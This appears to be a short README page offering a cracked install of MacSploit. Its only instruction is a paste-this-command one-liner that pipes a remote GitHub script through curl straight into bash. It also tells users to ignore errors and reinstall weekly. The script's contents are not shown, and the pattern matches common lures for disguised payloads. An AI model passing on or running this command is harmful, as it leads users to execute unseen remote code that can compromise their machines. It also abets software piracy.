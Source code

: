 Run this script to sttart the crack installtion

(

bash -c "$(curl -fsSL https://raw.githubusercontent.com/Kiwxpro/Macsploit-Crack/main/install_macsploit.sh)"

)

Also there may be some errors but ingore you should see macsploit in application folder or launchpad you will need to reinstall every 7 days to keep the crack working might get patched soon dont know.
